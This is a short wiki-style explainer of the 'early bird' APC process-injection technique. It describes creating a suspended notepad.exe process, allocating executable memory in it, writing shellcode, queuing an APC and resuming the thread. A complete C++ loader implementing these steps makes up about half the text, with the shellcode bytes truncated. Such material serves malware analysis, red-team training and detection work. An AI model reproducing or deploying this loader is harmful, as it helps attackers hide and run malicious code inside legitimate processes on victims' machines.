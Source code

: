 This injection is similar to the normal [[apc_injection]] technique, but this injection **creates a new process** and does not use an existing process.
The idea is to create a process that will be initiated in a suspended way (no execution). After that, the payload is allocated in the process space and then the shellcode is inserted in the APC queue.
As we have control over this new created process, we can turn the thread of the process into an alertable state, so the APC queue is executed and therefore the shellcode is executed.

The basic difference is that, as we are creating a process, we have control over the state of the process and we can turn it into an alertable state; that is why this APC technique is more used, although it is less stealthy as we are not injecting into an existing process.

Here is an snippet of code:
```c++
int main() {

	unsigned char payload[] = {
	  0xfc, 0x48, 0x83, ...
	};

	size_t payload_size = sizeof(payload);
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA("notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi); // We creaete the process in suspended state.
	HANDLE hVictimProcess = pi.hProcess;
	HANDLE hThread = pi.hThread;

	LPVOID lpShellcodeAddress = VirtualAllocEx(hVictimProcess, NULL, payload_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE); // We create a memory region in the suspended process
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE) lpShellcodeAddress; // Create the routine that points to the shellcode

	WriteProcessMemory(hVictimProcess, lpShellcodeAddress, payload, payload_size, NULL); // We write the shellcode in the memory region
	QueueUserAPC((PAPCFUNC)apcRoutine, hThread, NULL); // Add the APC routine to the APC queue

	ResumeThread(hThread);

	return EXIT_SUCCESS;

}
```